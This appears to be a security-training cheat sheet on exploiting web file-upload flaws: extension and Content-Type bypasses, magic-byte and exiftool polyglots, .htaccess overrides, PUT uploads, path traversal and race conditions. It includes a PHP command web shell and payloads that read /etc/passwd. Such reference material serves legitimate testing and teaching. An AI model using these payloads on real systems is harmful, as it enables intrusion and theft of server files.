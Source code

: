 ```yaml
---
title: "File upload vulnerabilities"
weight: 9
description: "Understand how to exploit file upload functionalities through flawed validation, misconfigurations, race conditions, and other advanced techniques."
---
```


# File upload vulnerabilities

Improper handling of file uploads is a common security weakness in web applications. If not carefully validated, uploaded files can lead to remote code execution (RCE), cross-site scripting (XSS), and other types of attacks.

{{< hint style=warning >}}
**Warning**: By default, servers do not execute uploaded files unless they are explicitly configured to do so.
{{< /hint >}}

---

## Flawed File Validation

Poor validation allows attackers to bypass filters and upload dangerous files.

### Content-Type Bypass

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Dangerous File Extensions

Some file extensions are known to trigger execution on the server. Even if certain types are blacklisted, you can still try alternate or obfuscated extensions:

```sh
# Common dangerous extensions
.php
.php3
.php4
.php5
.phtml
.phar

# Obfuscation examples
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File Content Validation

Even if the extension is valid, some servers validate the file content using magic numbers (specific byte patterns at the start of files).

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

You can still inject malicious code using a valid header:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

### Polyglot Files

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

---

## Overriding Server Configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers ➜ `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

---

## PUT Method Exploitation

Some servers support the HTTP `PUT` method for uploading files directly.

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/etc/passwd'); ?>
```

---

## Path Traversal + File Upload

If execution is blocked in the upload directory but the web server use the filename field in the request to determine the file’s name and location, you can try to escape using path traversal in the `filename` field:

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{{< hint style=tips >}}
**Tip**: If directory traversal is filtered, try encoding it: `filename="..%2fexploit.php"`.
{{< /hint >}}

---

## Upload Without RCE

Even without remote code execution, you can still cause harm:

- Upload `.html` or `.svg` files with embedded JavaScript ➜ **Stored XSS**
- Upload XML files like `.docx`, `.xlsx` ➜ Possible **XXE injection**

---

## Race Conditions in File Uploads

In some setups, files are uploaded and scanned (e.g., with antivirus) before being permanently stored. During this short window, the file may exist temporarily on disk and you could potentially execute it.

- Race conditions
- Difficult to detect

### Exploiting URL-Based Uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.